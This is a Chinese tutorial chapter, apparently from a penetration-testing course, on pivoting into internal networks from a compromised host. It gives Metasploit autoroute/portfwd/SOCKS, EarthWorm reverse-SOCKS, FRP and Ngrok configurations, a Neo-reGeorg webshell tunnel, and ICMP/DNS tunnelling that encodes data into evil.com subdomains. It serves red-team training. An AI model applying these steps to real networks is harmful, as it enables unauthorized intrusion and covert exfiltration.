






# 第51章 代理转发与内网穿透

> **难度等级：🟠 高等级**
>
> **预计学习时间：180分钟**
>
> **本章看点：为什么需要内网代理、端口转发原理、MSF端口转发、EarthWorm使用、FRP内网穿透、Ngrok、Socks代理搭建、Proxifier配置、多层代理、Webshell代理、ICMP/DNS隧道、5个实战案例**

::: tip 说明
前面我们学习了
怎么横向移动、
怎么在局域网里跑来跑去。
但是有一个问题：
**我们的攻击机在内网外面，
怎么访问内网里的机器呢？**

比如我们拿下了一台Web服务器，
这台服务器有两块网卡，
一块连外网，一块连内网。
我们想扫描内网、
攻击内网的其他机器，
怎么办？

这时候就需要
**代理转发**和**内网穿透**技术了。

简单说就是：
**把我们拿下的机器当跳板，
通过它去访问内网。**

这一章我们就来学习
各种代理和穿透技术，
从最简单的端口转发，
到复杂的多层代理、
各种隧道技术。

准备好了吗？
开始！
:::

---

## 📖 本章概述

::: tip 写在前面
很多人学内网渗透的时候，
最头疼的就是网络问题。
"我怎么访问内网啊？"
"这个代理怎么配啊？"
"为什么扫不到啊？"

其实原理都很简单，
就是把一台受控机器
当成"中间人"或者"跳板"，
我们的流量经过它，
转发到内网去。

这一章的内容非常实用，
也是护网红队必备技能。
不管是简单的端口转发，
还是复杂的多层内网穿透，
你都能在这里学到。

我们会按照从易到难的顺序：
1. 先讲基本概念和原理
2. 然后是各种工具的使用
3. 最后是实战案例

**注意：** 这一章工具比较多，
建议大家动手实操，
光看是学不会的。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 理解什么是代理转发、什么是内网穿透
- [x] 掌握端口转发的原理和常见场景
- [x] 会用MSF的portfwd做端口转发
- [x] 会用EarthWorm（EW）做正向/反向代理
- [x] 会用FRP搭建内网穿透
- [x] 了解Ngrok的使用
- [x] 掌握Socks代理的搭建和使用
- [x] 会用Proxifier配置代理客户端
- [x] 理解多层代理的原理和搭建
- [x] 了解Webshell代理（reGeorg等）
- [x] 了解ICMP隧道和DNS隧道
- [x] 知道什么时候用什么工具

---

## 🔍 基础概念

### 1.1 为什么需要内网代理？

在讲工具之前，
我们先搞清楚一个问题：
**为什么需要内网代理？**

想象一下这个场景：
```
攻击者（公网）
    |
    |  访问Web服务器
    ↓
Web服务器（双网卡）
├── 外网网卡：1.1.1.1（公网IP）
└── 内网网卡：192.168.1.10（内网IP）
    |
    |  内网
    ↓
内网其他机器（192.168.1.0/24）
```

我们拿下了Web服务器，
想攻击内网里的其他机器，
比如192.168.1.20、192.168.1.30。
但是我们的攻击机在公网，
**直接访问不到内网的机器。**

怎么办？
这时候就要用Web服务器当跳板，
通过它去访问内网。

这就是**内网代理**的作用：
**把受控机器当跳板，访问它能访问到的网络。**

**图51-1 内网代理场景示意图**



### 1.2 正向代理 vs 反向代理

这两个概念经常搞混，
我们来分清楚：

#### 正向代理（Forward Proxy）
**我们主动连接跳板机，
通过跳板机访问内网。**

> 💡 **深入理解：端口转发到底是怎么工作的？——"数据搬运工"**
>
> 所有的代理/转发，本质上都是同一件事：
> **在两段网络连接之间搬运数据。**
>
> 用生活中最朴素的比喻来理解：
> ```
> 你在A城市，想给B城市的朋友送东西。
> 但你没法直接去B城市（你在外网，内网你进不去）。
>
> 幸运的是，你的另一个朋友C在两个城市之间来往！
> （C = 跳板机，有两块网卡）
>
> 方案有两种：
>
> 正向代理（你主动找C）：
>   你把东西交给C → C帮你送到B城市的朋友手里
>
> 反向代理（C主动找你）：
>   C在你城市开了个小仓库，你把东西放仓库 → C从仓库取来送到B城市
> ```
>
> 在技术层面，端口转发做的事情就是：
> ```
> 本机:端口A ←数据搬运→ 跳板机:动态端口 ←数据搬运→ 内网目标:端口B
>
> 具体流程：
> 1. 跳板机上运行转发程序，监听某个端口
> 2. 攻击者连接跳板机的这个端口，发送数据
> 3. 转发程序收到数据后，再建立一个连接到内网目标
> 4. 把攻击者的数据原封不动地传给内网目标
> 5. 内网目标回复数据 → 转发程序再传回攻击者
> ```
>
> 转发程序就是一个"无知觉的数据搬运工"：
> 它不关心数据内容是什么（HTTP? RDP? SSH?），
> 只是机械地把数据从A搬到B，再从B搬回A。
> 这就是为什么一个端口转发就搞定了所有协议！
>
> **但注意：端口转发 = 一个通道只能搬一种服务（一个端口）。
> Socks代理 = 可以搬任意端口（所以比端口转发更强大）。**

```
攻击者 → 跳板机 → 内网目标
```

特点：
- 跳板机有公网IP，我们能直接连到它
- 我们主动发起连接
- 适合跳板机有公网IP的情况

#### 反向代理（Reverse Proxy）
**跳板机主动连我们，
我们通过这个连接访问内网。**

```
攻击者 ← 跳板机 → 内网目标
     （跳板机主动连过来）
```

特点：
- 跳板机在内网，没有公网IP
- 跳板机主动连接我们的公网服务器
- 适合目标在内网、出网受限的情况

**简单记忆：**
- 正向：我连它 → 它连目标
- 反向：它连我 → 我通过它连目标

**图51-2 正向代理与反向代理对比图**



### 1.3 端口转发 vs Socks代理

这两个也是常见概念：

#### 端口转发（Port Forwarding）
**把一个端口的流量转发到另一个地方。**

比如：
- 把本地的3389端口，转发到内网某台机器的3389
- 这样我们连接本地3389，就等于连内网那台的3389

特点：
- 一个端口对应一个目标
- 适合只需要访问少数几个端口的情况
- 简单直接

#### Socks代理
**搭建一个代理服务器，
所有流量都通过它转发。**

比如：
- 搭一个Socks5代理在跳板机上
- 我们的扫描器、浏览器、各种工具
  都配置成走这个代理
- 就能像在本地一样访问整个内网

特点：
- 可以访问整个网段的任意端口
- 各种工具都能配置代理
- 功能更强大，使用更方便

### 1.4 常见的代理工具

这一章我们会讲这些工具：

| 工具 | 类型 | 特点 |
|------|------|------|
| **MSF portfwd** | 端口转发 | MSF自带，简单方便 |
| **MSF autoroute** | 路由 | MSF自带，配合MSF模块用 |
| **EarthWorm (EW)** | Socks代理 | 轻量级，功能强大，Windows/Linux都有 |
| **FRP** | 内网穿透 | 功能强大，支持多种协议，适合复杂场景 |
| **Ngrok** | 内网穿透 | 简单易用，有免费版 |
| **reGeorg** | Webshell代理 | 只有Webshell的时候用 |
| **Proxifier** | 代理客户端 | Windows下的全局代理工具 |
| **proxychains** | 代理客户端 | Linux下的代理工具 |

---

## 🔌 MSF端口转发与代理

### 2.1 MSF autoroute 路由

我们先从MSF自带的功能讲起，
因为最简单，
拿到Meterpreter直接就能用。

**autoroute是什么？**
autoroute是MSF的一个后渗透模块，
用来在MSF里面添加路由。
添加之后，
MSF的其他模块（扫描、exploit等）
就可以通过这个Meterpreter会话
访问内网了。

**怎么用？**

首先你要有一个Meterpreter会话，
然后：

```bash
# 进入Meterpreter会话
meterpreter > run autoroute -s 192.168.1.0/24

# 查看路由表
meterpreter > run autoroute -p
```

参数说明：
- `-s 网段`：添加到这个网段的路由
- `-p`：打印当前路由表
- `-d 网段`：删除路由

**添加之后呢？**
添加路由之后，
你把这个Meterpreter会话挂后台（background），
然后用MSF的其他模块，
比如扫描模块、exploit模块，
设置RHOSTS为内网IP，
就能直接扫内网了！

```bash
# 后台运行Meterpreter
meterpreter > background

# 用MSF的扫描模块扫内网
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 1-1000
msf6 auxiliary(scanner/portscan/tcp) > run
```

**注意：**
autoroute只能让**MSF自己的模块**
通过这个会话访问内网，
不能让你本机的其他工具（浏览器、Nmap等）用。
要让其他工具用，需要Socks代理或者端口转发。

### 2.2 MSF portfwd 端口转发

**portfwd是什么？**
portfwd是Meterpreter的端口转发功能，
可以把本地的端口转发到内网机器的端口。

**怎么用？**

```bash
# 进入Meterpreter会话
meterpreter > portfwd add -l 本地端口 -p 目标端口 -r 目标IP

# 例子：把本地3389转发到192.168.1.20的3389
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.1.20

# 查看转发列表
meterpreter > portfwd list

# 删除转发
meterpreter > portfwd delete -l 3389

# 清空所有转发
meterpreter > portfwd flush
```

参数说明：
- `-l`：本地监听的端口
- `-p`：目标端口
- `-r`：目标IP（内网IP）

**转发之后呢？**
转发之后，
你连接本地的端口，
就等于连接内网目标的端口。

比如上面的例子，
你在本地用RDP连接`127.0.0.1:3389`，
就等于连192.168.1.20的3389。

**portfwd的优缺点：**

优点：
- MSF自带，不用上传额外工具
- 简单方便，一条命令搞定
- 适合只需要访问少数几个端口的情况

缺点：
- 一个端口一条命令，端口多了麻烦
- 只有MSF会话在线时能用
- 不能给其他工具用（除了直连端口的）

### 2.3 MSF Socks代理

如果你想让本机的其他工具
（比如浏览器、Nmap、SQLMap等）
也能通过Meterpreter访问内网，
可以用MSF的Socks代理模块。

MSF有几个Socks代理模块：
- `auxiliary/server/socks_proxy`（新版，推荐）
- `auxiliary/server/socks4a`（老版）

**使用步骤：**

**第一步：添加autoroute路由**
```bash
meterpreter > run autoroute -s 192.168.1.0/24
meterpreter > background
```

**第二步：启动Socks代理服务**
```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run
```

这样就在本地1080端口启动了一个Socks5代理。
所有连这个代理的流量，
都会通过MSF的路由（也就是Meterpreter会话）
转发到内网。

**第三步：配置工具使用代理**

比如用proxychains：
```bash
# 编辑proxychains配置
vim /etc/proxychains4.conf
# 最后一行加上：
socks5 127.0.0.1 1080

# 然后用proxychains运行工具
proxychains nmap -sT 192.168.1.0/24
proxychains curl http://192.168.1.20
```

或者浏览器配置代理：
- 设置Socks5代理为 127.0.0.1:1080
- 就能访问内网的Web应用了

**注意事项：**
1. Socks代理 + autoroute组合非常好用
2. 扫描的话建议用-sT（TCP连接扫描），不要用-sS
3. 速度可能会有点慢，毕竟走了多层转发
4. MSF的Socks代理稳定性一般，长时间用建议用其他工具

**图51-3 MSF autoroute + Socks 代理工作流程图**



---

## 🌍 EarthWorm（EW）使用详解

### 3.1 EW是什么？

**EarthWorm（简称EW）** 是一个
轻量级的内网穿透工具，
功能非常强大，
支持Windows、Linux、Mac等多平台。

它可以做：
- 正向Socks5代理
- 反向Socks5代理
- 端口转发
- 多级级联（多层代理）
- ...

EW的特点：
- 单文件，不用安装，上传就能用
- 体积小（几百KB）
- 跨平台
- 功能强大
- 速度快

**注意：** EW作者已经停止更新了，
但它依然是非常经典的工具，
学习和理解原理很有价值。
现在也有很多类似的工具，
比如Venom、Termite等，
原理都是类似的。

### 3.2 EW的基本概念

EW有几个核心概念：

- **ssocksd**：Socks5服务端，提供Socks代理
- **rcsocks**：反向Socks服务端（我们的公网机器上运行）
- **rssocks**：反向Socks客户端（目标机器上运行，主动连我们）
- **lcx_slave**：端口转发从端
- **lcx_tran**：端口转发主端
- **ltran_listen**：监听转发

不用全记住，
知道有正向和反向两种模式就行。

### 3.3 正向Socks代理（目标有公网IP）

**场景：**
目标机器有公网IP，
我们能直接连到它。

```
攻击者 → 跳板机（有公网IP）→ 内网
```

**操作步骤：**

**第一步：在跳板机上运行EW**
```bash
# Linux
./ew -s ssocksd -l 8888

# Windows
ew.exe -s ssocksd -l 8888
```

参数说明：
- `-s ssocksd`：以Socks服务端模式运行
- `-l 8888`：监听8888端口

**第二步：在攻击机上配置代理**

用Proxifier或者proxychains，
配置Socks5代理为：
`跳板机IP:8888`

然后就能访问内网了。

就这么简单！

### 3.4 反向Socks代理（目标在内网）

**场景：**
目标机器在内网，
没有公网IP，
但是能访问外网。

```
攻击者（公网服务器） ← 跳板机（内网） → 内网其他机器
```

这时候需要两台机器配合：
1. **公网VPS**：我们的服务器，有公网IP
2. **目标跳板机**：内网机器，主动连我们的VPS

**操作步骤：**

**第一步：在公网VPS上运行EW**
```bash
# 监听两个端口：
# 1080端口：提供Socks代理给我们用
# 8888端口：等待目标机器连过来
./ew -s rcsocks -l 1080 -e 8888
```

参数说明：
- `-s rcsocks`：反向Socks服务端模式
- `-l 1080`：Socks代理监听端口（我们连这个）
- `-e 8888`：等待目标连接的端口

**第二步：在目标跳板机上运行EW**
```bash
# 主动连接我们的公网VPS
./ew -s rssocks -d 我们的公网IP -e 8888
```

参数说明：
- `-s rssocks`：反向Socks客户端模式
- `-d 公网IP`：我们的公网VPS的IP
- `-e 8888`：VPS上的端口

连接成功之后，
我们在攻击机上配置Socks5代理为
`公网VPS的IP:1080`，
就能通过跳板机访问内网了！

**原理图解：**
```
我们的攻击机
    |
    | Socks5代理（1080端口）
    ↓
公网VPS
    |
    | 隧道（8888端口）
    ↓
目标跳板机（内网）
    |
    | 访问内网
    ↓
内网其他机器
```

是不是很巧妙？
跳板机主动连出来，
建立一条隧道，
我们通过这条隧道访问内网。

**图51-4 EarthWorm 正向与反向Socks代理原理对比图**



### 3.5 EW端口转发

EW也可以做端口转发，
功能类似MSF的portfwd，
但更灵活。

**场景：**
把本地的某个端口，
转发到内网机器的某个端口。

```bash
# 例子：把本地3389转发到内网192.168.1.20的3389
./ew -s lcx_tran -l 3389 -f 192.168.1.20 -g 3389
```

参数说明：
- `-s lcx_tran`：端口转发模式
- `-l 3389`：本地监听端口
- `-f 目标IP`：目标IP
- `-g 目标端口`：目标端口

### 3.6 EW多级代理（多层内网）

**场景：**
目标网络有好几层，
比如：
```
第一层（边界）→ 第二层（办公区）→ 第三层（核心区）
```
我们拿下了第一层和第二层的机器，
想访问第三层。

这时候就需要**多级代理**，
也叫**级联**。

EW支持多级级联，
原理就是一层一层连过去。

具体的命令比较复杂，
这里就不展开了，
大家知道有这个功能就行。
实际遇到了再查文档。

### 3.7 EW使用注意事项

1. **权限问题**：在目标机器上运行EW可能需要管理员权限
2. **被杀软查杀**：EW比较老，容易被杀毒软件查杀
3. **流量特征**：EW的流量有特征，可能被流量监测设备发现
4. **稳定性**：长时间运行可能会断，需要重连
5. **替代工具**：现在有很多更好的工具，比如FRP、Venom等

---

## 🚀 FRP内网穿透

### 4.1 FRP是什么？

**FRP（Fast Reverse Proxy）** 是一个
非常流行的内网穿透工具，
功能强大，性能好，
一直在更新维护。

FRP的特点：
- 支持TCP、UDP、HTTP、HTTPS等多种协议
- 性能好，速度快
- 配置灵活，功能丰富
- 有加密、压缩等功能
- 跨平台
- 开源免费

FRP分为两部分：
- **frps**：服务端，跑在公网VPS上
- **frpc**：客户端，跑在内网机器上

### 4.2 FRP安装

**服务端（公网VPS）：**
```bash
# 下载FRP（根据系统选择对应版本）
wget https://github.com/fatedier/frp/releases/download/v0.52.0/frp_0.52.0_linux_amd64.tar.gz

# 解压
tar -zxvf frp_0.52.0_linux_amd64.tar.gz
cd frp_0.52.0_linux_amd64

# 服务端用frps和frps.ini
```

**客户端（内网机器）：**
下载对应平台的版本，
Windows就下Windows版，
Linux就下Linux版。
客户端用frpc和frpc.ini。

### 4.3 TCP端口转发

**场景：**
把内网机器的某个端口，
映射到公网VPS上。
这样访问公网VPS的某个端口，
就等于访问内网机器的端口。

比如：
把内网机器的22端口（SSH），
映射到公网VPS的6000端口。

**服务端配置（frps.ini）：**
```ini
[common]
bind_port = 7000
```
很简单，就一个监听端口。

启动服务端：
```bash
./frps -c frps.ini
```

**客户端配置（frpc.ini）：**
```ini
[common]
server_addr = 你的公网VPS的IP
server_port = 7000

[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6000
```

启动客户端：
```bash
./frpc -c frpc.ini
```

**使用：**
配置好之后，
你在任何地方SSH连接：
```bash
ssh -p 6000 用户名@公网VPS的IP
```
就等于连接内网机器的22端口了！

是不是很神奇？

### 4.4 Socks5代理

FRP也可以做Socks5代理，
这样就能访问整个内网网段。

**服务端配置（frps.ini）：**
```ini
[common]
bind_port = 7000
```

**客户端配置（frpc.ini）：**
```ini
[common]
server_addr = 你的公网VPS的IP
server_port = 7000

[socks5]
type = tcp
remote_port = 1080
plugin = socks5
```

这样就把Socks5代理的端口
映射到了公网VPS的1080端口。

你配置Socks5代理为
`公网VPS的IP:1080`，
就能访问内网了。

**图51-5 FRP 内网穿透架构与工作流程图**



### 4.5 HTTP/HTTPS穿透

FRP还支持HTTP和HTTPS协议的穿透，
可以把内网的Web服务
映射到公网，
还支持自定义域名。

这个对于演示、测试非常有用。

**服务端配置（frps.ini）：**
```ini
[common]
bind_port = 7000
vhost_http_port = 8080
```

**客户端配置（frpc.ini）：**
```ini
[common]
server_addr = 你的公网VPS的IP
server_port = 7000

[web]
type = http
local_port = 80
custom_domains = 你的域名
```

然后把域名解析到公网VPS的IP，
访问 `http://你的域名:8080`
就能访问内网的80端口的Web服务了。

### 4.6 FRP的其他功能

FRP的功能非常多，
再列举几个：

1. **UDP转发**：支持UDP协议的穿透
2. **加密传输**：可以配置密码，加密传输
3. **压缩**：启用压缩，节省带宽
4. **身份验证**：token验证，防止别人乱用
5. **热重载**：修改配置不用重启
6. **Dashboard**：Web管理界面，看状态和统计
7. **端口白名单/黑名单**：安全控制
8. **TCP多路复用**：提高性能
9. **负载均衡**：多个客户端负载均衡

感兴趣的同学可以去看官方文档，
写得非常详细。

### 4.7 FRP vs EW

简单对比一下：

| 对比项 | EW | FRP |
|--------|----|-----|
| **更新状态** | 已停止更新 | 活跃维护 |
| **功能** | 基本够用 | 非常丰富 |
| **性能** | 一般 | 好 |
| **配置** | 命令行参数 | 配置文件 |
| **跨平台** | 支持 | 支持 |
| **学习成本** | 低 | 中等 |
| **适合场景** | 简单快速的代理 | 复杂、长期的穿透 |

**简单建议：**
- 临时用、快速用 → EW
- 长期用、功能多 → FRP

---

## 🌐 Ngrok内网穿透

### 5.1 Ngrok是什么？

**Ngrok** 是一个
非常有名的内网穿透工具，
特别简单易用。

它的特点：
- 超级简单，一条命令就能用
- 有免费版（也有付费版）
- 支持HTTP、HTTPS、TCP
- 不用自己有公网服务器
- 官方提供服务器

适合什么场景？
- 快速演示
- 临时测试
- 微信开发回调
- 等等...

### 5.2 Ngrok使用

**第一步：下载安装**
去官网下载对应版本：
https://ngrok.com/

**第二步：注册账号，获取authtoken**
免费注册一个账号，
拿到你的authtoken。

**第三步：配置authtoken**
```bash
ngrok config add-authtoken 你的token
```

**第四步：启动穿透**

HTTP穿透（把本地80端口映射到公网）：
```bash
ngrok http 80
```

TCP穿透：
```bash
ngrok tcp 22
```

启动之后，
Ngrok会给你一个公网地址，
比如：
```
Forwarding  https://xxxx-xx-xx-xx-xx.ngrok-free.app -> localhost:80
```

访问这个地址，
就等于访问你本地的80端口。

是不是超级简单？

### 5.3 Ngrok的优缺点

优点：
- 超级简单，一分钟上手
- 不用自己有公网服务器
- 有免费版

缺点：
- 免费版速度慢、有流量限制
- 免费版域名是随机的，每次不一样
- 国内访问可能比较慢
- 高级功能要付费

**总结：**
适合快速演示、临时测试，
不适合长期、大量的使用。

---

## 🧦 Socks代理与客户端工具

### 6.1 Socks代理是什么？

前面我们一直在说Socks代理，
那到底什么是Socks代理呢？

**Socks是一种网络代理协议，
它在客户端和服务器之间
建立一个中间通道，
客户端的所有流量
都通过这个通道转发。**

Socks代理工作在传输层，
不关心应用层协议，
所以什么HTTP、HTTPS、FTP、SSH...
通通都能代理。

Socks主要有两个版本：
- **Socks4**：只支持TCP，不支持认证
- **Socks5**：支持TCP和UDP，支持认证，功能更强

现在一般都用Socks5。

### 6.2 Proxifier（Windows）

**Proxifier** 是Windows下
最常用的全局代理工具。
它可以让
**任何Windows程序**
都走代理，
不管程序本身支不支持代理设置。

**怎么用？**

1. 下载安装Proxifier
2. 打开，添加代理服务器
   - Address：代理服务器IP
   - Port：端口
   - Protocol：Socks5（或HTTP）
3. 设置规则（可选）
   - 哪些程序走代理
   - 哪些不走
4. 保存，就生效了

**特点：**
- 图形化界面，简单易用
- 可以按程序设置规则
- 可以看流量统计
- 功能强大

### 6.3 proxychains（Linux）

**proxychains** 是Linux下
最常用的代理工具。
它可以让命令行工具
通过代理访问网络。

**怎么用？**

安装：
```bash
# Debian/Ubuntu
apt install proxychains4

# CentOS
yum install proxychains-ng
```

配置：
```bash
vim /etc/proxychains4.conf

# 在最后加上你的代理
socks5 127.0.0.1 1080
```

使用：
```bash
# 在命令前面加上proxychains
proxychains nmap -sT 192.168.1.0/24
proxychains curl http://192.168.1.20
proxychains ssh user@192.168.1.30
```

**注意事项：**
- 扫描的话用-sT（TCP connect扫描），不要用-sS
- 速度会慢一些，要有耐心
- UDP代理支持不好

### 6.4 浏览器代理设置

浏览器也可以配置代理，
用来访问内网的Web应用。

**Chrome/Firefox通用设置：**
- 设置 → 高级 → 系统 → 打开您的计算机的代理设置
- 配置Socks5代理

或者用插件：
- SwitchyOmega（推荐）
- Proxy SwitchySharp

插件的好处是可以随时切换，
还可以设置规则，
哪些网站走代理，哪些不走。

---

## 🕸️ Webshell代理

### 7.1 什么时候用Webshell代理？

前面讲的这些工具，
都需要在目标机器上运行程序。
但是有时候：
- 目标机器杀软很严，上传就被杀
- 只有Webshell，不能执行exe
- 只能通过HTTP协议通信

这时候怎么办？
可以用**Webshell代理**！

**Webshell代理是什么？**
就是上传一个特殊的Webshell脚本
（PHP/ASP/JSP等），
这个脚本可以接收Socks代理请求，
然后在目标服务器上执行，
把结果返回。

这样我们就能通过Webshell
搭建Socks代理，
访问内网了。

### 7.2 reGeorg / Neo-reGeorg

**reGeorg** 是最经典的
Webshell代理工具。
后来有人做了改进版
叫 **Neo-reGeorg**。

支持的脚本类型：
- PHP
- ASPX
- JSP
- ...

**使用步骤：**

**第一步：生成Webshell**
```bash
# 生成密码为123456的PHP webshell
python neoreg.py generate -k 123456
```

会生成几个文件：
- tunnel.php
- tunnel.aspx
- tunnel.jsp
- ...

**第二步：上传Webshell到目标服务器**
把tunnel.php（根据目标选）
上传到目标网站目录，
确保能通过HTTP访问。

**第三步：在本地连接**
```bash
python neoreg.py -k 123456 -u http://目标网址/tunnel.php
```

连接成功之后，
会在本地开启一个Socks5代理端口
（默认是1080）。

然后配置你的工具走这个代理，
就能访问内网了！

**原理：**
```
我们的工具 → 本地Socks代理 → HTTP请求 → Webshell → 内网目标
```

所有流量都封装在HTTP请求里，
看起来就是正常的Web访问，
比较隐蔽。

### 7.3 Webshell代理的优缺点

优点：
- 不用上传exe，被杀风险低
- 只用HTTP协议，容易绕过防火墙
- 有Webshell就能用

缺点：
- 速度比较慢
- 稳定性一般
- 流量特征可能被WAF检测

---

## 🌙 ICMP隧道与DNS隧道

### 8.1 什么是协议隧道？

前面讲的都是TCP的代理，
那如果目标网络限制很严，
TCP只能访问特定端口，
甚至TCP大部分端口都被封了，
怎么办？

这时候可以用
**其他协议来建隧道**，
比如：
- **ICMP隧道**：用ICMP（ping）协议传数据
- **DNS隧道**：用DNS协议传数据

这些协议通常不会被完全禁止，
因为网络诊断需要用到。

### 8.2 ICMP隧道

**ICMP隧道是什么？**
就是把数据封装在
ICMP包（ping包）里面，
通过ping来传输数据。

原理：
- 我们发一个ping包给目标
- ping包的数据部分藏着我们的命令
- 目标收到后，解析出命令，执行
- 结果再封装在ping回复包里发回来

常用工具：
- **icmpsh**：简单的ICMP反向Shell
- **Ptunnel**：ICMP隧道工具
- **icmptunnel**：ICMP隧道

**使用场景：**
- TCP/UDP都被封了，只能ping通
- 绕过防火墙限制

**注意：**
- ICMP隧道速度很慢
- 大量ICMP包可能被检测
- 需要管理员/root权限

### 8.3 DNS隧道

**DNS隧道是什么？**
就是把数据封装在
DNS查询请求里面，
通过DNS协议传输。

原理：
- 我们要发数据给目标
- 把数据编码成子域名，比如 data.xxx.evil.com
- 发起DNS查询
- 我们控制的DNS服务器收到请求，解析出数据
- 回复也通过DNS响应返回

常用工具：
- **dnscat2**：DNS隧道工具，功能强
- **iodine**：DNS隧道，可以转发IP流量
- **DNSCat**：类似dnscat
- **Cobalt Strike的DNS Beacon**：商业工具的DNS功能

**使用场景：**
- 内网只能访问特定DNS服务器
- 绕过严格的防火墙
- 隐蔽通信

**注意：**
- DNS隧道速度更慢
- 大量DNS查询可能被检测
- 需要有一个域名和控制的DNS服务器

### 8.4 隧道技术总结

| 隧道类型 | 速度 | 隐蔽性 | 难度 | 适用场景 |
|----------|------|--------|------|----------|
| **TCP代理** | 快 | 一般 | 简单 | 正常情况 |
| **HTTP代理** | 中 | 较好 | 简单 | 只能HTTP出网 |
| **ICMP隧道** | 慢 | 一般 | 中等 | 只能ping通 |
| **DNS隧道** | 很慢 | 较好 | 较难 | 只能DNS出网 |

实际中，
TCP代理是最常用的，
其他隧道是特殊情况下的备选方案。

**图51-6 多层代理级联与隧道技术选择决策图**



---

## 🎯 真实案例

### 案例1：MSF Socks代理扫内网

**场景：**
